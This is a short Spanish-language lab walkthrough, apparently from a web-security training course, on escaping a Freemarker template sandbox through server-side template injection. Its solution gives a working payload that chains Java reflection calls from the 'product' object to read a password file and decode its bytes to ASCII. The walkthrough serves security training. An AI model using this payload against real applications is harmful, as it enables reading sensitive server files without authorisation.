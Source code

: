 En esta clase explotamos una SSTI en Freemarker dentro de un entorno supuestamente aislado. Usamos el objeto **product** como punto de entrada para encadenar métodos de Java como ‘**getClass()**‘, ‘**getProtectionDomain()**‘ y ‘**openStream()**‘ hasta acceder al archivo sensible ‘**/home/carlos/my_password.txt**‘.

Obtenemos su contenido como bytes ASCII y lo convertimos para resolver el laboratorio, demostrando que incluso los entornos con sandbox pueden ser vulnerables si no se aíslan correctamente los métodos de reflexión.

Solucion
aqui nos encontramos con el mismo de freemarker
![Pasted_image_20250814203648.png](Imagenes/Pasted_image_20250814203648.png)
entonce nos vamos a buscar el payload
![Pasted_image_20250814204301.png](Imagenes/Pasted_image_20250814204301.png)
y lo ideal una ves terminado de configurar el payload sera convertirlo ascii
(${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")})
![Pasted_image_20250814204346.png](Imagenes/Pasted_image_20250814204346.png)
https://www.prepostseo.com/tool/decimal-to-ascii
![Pasted_image_20250814204605.png](Imagenes/Pasted_image_20250814204605.png)

